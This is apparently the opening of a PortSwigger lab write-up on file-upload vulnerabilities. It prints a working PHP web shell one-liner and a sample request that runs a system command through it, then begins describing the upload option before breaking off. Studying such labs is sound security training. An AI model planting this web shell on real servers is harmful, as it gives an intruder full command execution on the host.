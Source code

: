 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/95a1da63-a8a2-48cd-8887-d1f17a2a1591)

## Overview :

- If we're able to successfully upload a web shell, we effectively have full control over the server.
- For example, the following PHP one-liner could be used to run commands on the server:  `<?php echo system($_GET['command']); ?>`

Once uploaded , we can pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

## Solution :

Click on any of the blog posts. We can see that we have an option to upload files.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/907e5013-4590-426e-881f-71a47a4f85de)



